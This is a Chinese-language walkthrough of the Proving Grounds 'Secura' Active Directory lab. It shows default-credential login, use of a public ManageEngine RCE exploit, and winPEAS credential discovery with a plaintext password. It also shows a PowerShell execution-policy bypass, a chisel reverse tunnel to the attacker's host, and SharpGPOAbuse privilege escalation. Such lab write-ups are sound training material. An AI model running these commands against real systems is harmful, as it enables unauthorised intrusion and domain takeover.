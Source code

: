 ```yaml
---
title: Proving Grounds Practive-Challenge 0 - Secura
date: 2025-9-11 20:00:00
tags: 红队
categories: 红队打靶-Windows_Active
---
```


# 信息收集

### **192.168.127.97**

![image-20250911172850880](./Challenge%200%20-%20Secura/image-20250911172850880.png)

### **192.168.127.96**

![image-20250911174823607](./Challenge%200%20-%20Secura/image-20250911174823607.png)

### **192.168.127.95**

![image-20250911174938610](./Challenge%200%20-%20Secura/image-20250911174938610.png)

![image-20250911174923208](./Challenge%200%20-%20Secura/image-20250911174923208.png)

![image-20250911174914199](./Challenge%200%20-%20Secura/image-20250911174914199.png)

## 95主机-web服务

95主机44444端口有一个`applications Manager`服务，尝试了一些弱密码`admin:admin`直接登录成功

![image-20250912134828216](./Challenge%200%20-%20Secura/image-20250912134828216.png)

这个服务的版本是14710，通过搜索可以知道该版本存在远程代码执行

[ManageEngine Applications Manager 14700 - Remote Code Execution (Authenticated) - Java webapps Exploit](./https://www.exploit-db.com/exploits/48793)

运行该exp需要`jdk`版本大于8，才可以生成jar文件

![image-20250912143416536](./Challenge%200%20-%20Secura/image-20250912143416536.png)

运行之后就可以得到一个shell

![image-20250912143541598](./Challenge%200%20-%20Secura/image-20250912143547485.png)

直接拿到system权限，就可以拿到95主机下的flag

![image-20250912143800277](./Challenge%200%20-%20Secura/image-20250912143800277.png)

# 在95主机上信息收集

## winPEASx64.exe

运行winPEASx64.exe，找到几个用户和密码

这个账号密码就可以远程连接到95主机

```
xfreerdp /u:administrator /p:'Reality2Show4!.?' /v:192.168.167.95
```

![image-20250912152820399](./Challenge%200%20-%20Secura/image-20250912152820399.png)

打开文件管理器也可以看到这个最近修改的文件

![image-20250912155119488](./Challenge%200%20-%20Secura/image-20250912155119488.png)

通过winPEASx64也可以发现

![image-20250912153338784](./Challenge%200%20-%20Secura/image-20250912153338784.png)

## PowerView.ps1

使用`powerview`进行域信息收集

先上传powerview，然后关闭安全机制，然后导入powerview.ps1,关闭安全机制只在这个窗口有用

```
powershell Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypas
Import-Module .\powerview.ps1
```

![image-20250912153750271](./Challenge%200%20-%20Secura/image-20250912153750271.png)

# 远程连接到96

上面的apache用户可以使用`evil-winrm`远程连接到96

在96本地运行了mysql，使用chisel将3306端口转发到kali上

```
./chisel_1.10.1_windows_amd64.exe client 192.168.45.222:8888 R:9999:127.0.0.1:3306

./chisel_1.10.1_linux_amd64 server -p 8888 --reverse
```

密码直接是空

![image-20250912163144253](./Challenge%200%20-%20Secura/image-20250912163144253.png)

查权限就可以知道有所有权限

![image-20250912163622753](./Challenge%200%20-%20Secura/image-20250912163622753.png)

![image-20250912163938724](./Challenge%200%20-%20Secura/image-20250912163938724.png)

![image-20250912164004902](./Challenge%200%20-%20Secura/image-20250912164004902.png)

![image-20250912164047690](./Challenge%200%20-%20Secura/image-20250912164047690.png)

`administrator`用户就是96主机的`administrator`用户

![image-20250912164142428](./Challenge%200%20-%20Secura/image-20250912164142428.png)

# 97主机信息收集

利用上面数据库中的另一个账户Charlotte

该账户既可以访问97主机的smb，也可以远程登录到97主机

但是smb中没有什么有用的信息

![image-20250912165250763](./Challenge%200%20-%20Secura/image-20250912165250763.png)

### 导入`powerview.ps1`

```
./powerview.ps1
Import-Module .\powerview.ps1

有时候会报错,windows不允许导入等等的，这是windows的安全机制
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypas
只需要在本窗口关闭，然后导入即可
```

### 1. `Get-NetGPO` 输出

```
Get-NetGPO
```

- **作用**：列出域内的 **Group Policy Objects（GPO）**
- 输出内容包括：
  - `displayname`：GPO 名称，比如 `Default Domain Policy`
  - `gpcfilesyspath`：GPO 文件在 SYSVOL 的共享路径
  - `distinguishedname`、`objectguid`：GPO 在 AD 的唯一标识
- 从输出中你看到两个 GPO：
  1. **Default Domain Policy**
  2. **Default Domain Controllers Policy**
- 这些是域控制器和域安全策略的核心策略。

### 3.`Get-GPPermission` 输出

```
Get-GPPermission -Name "Default Domain Policy" -All
```

**作用**：查看谁对该 GPO 有什么权限

输出字段：

- `Trustee`：账户或组
- `Permission`：权限类型，比如 `GpoApply`、`GpoEditDeleteModifySecurity`

重点发现：

- 用户 `charlotte` 拥有 **GpoEditDeleteModifySecurity** 权限 → 可以编辑、删除、修改 GPO 安全策略
- SYSTEM 也有类似权限

这说明 `charlotte` 可以通过 GPO **提升权限或修改策略**

![image-20250912171953885](./Challenge%200%20-%20Secura/image-20250912171953885.png)

### 4.`SharpGPOAbuse.exe` 使用

[下载地址](./https://github.com/byronkg/SharpGPOAbuse/releases?utm_source=chatgpt.com)

```
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount charlotte --GPOName "Default Domain Policy"
```

**作用**：利用 GPO 权限将 `charlotte` 添加为本地管理员，就是添加到administrators组

可以使用net localgroup administrators查看是否添加成功

背景：

- 因为 charlotte 对 Default Domain Policy 有修改权限
- 可以在策略中写入脚本或注册表修改，实现 **本地管理员提升**



添加成功

<font color=red>重新远程连接后</font>得到本地管理员权限

![image-20250912172017254](./Challenge%200%20-%20Secura/image-20250912172017254.png)
